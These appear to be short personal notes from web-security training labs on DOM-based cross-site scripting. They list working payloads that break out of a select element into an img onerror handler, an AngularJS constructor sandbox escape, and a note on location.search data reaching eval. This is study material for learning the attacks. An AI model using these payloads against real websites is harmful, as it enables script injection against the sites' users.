 ____

# DOM XSS in `document.write` sink using source `location.search` inside a select element

```html
"></select><img src=1 onerror=alert(1)>
```

![[Pasted image 20240804162601.png]]

```html
test</select><img src=1 onerror=alert(1)>
```

# DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

`ng-app`

```js
{{$on.constructor('alert(1)')()}}
```

# Reflected DOM XSS

The application may be vulnerable to DOM-based JavaScript injection. Data is read from **location.search** and passed to **eval**.



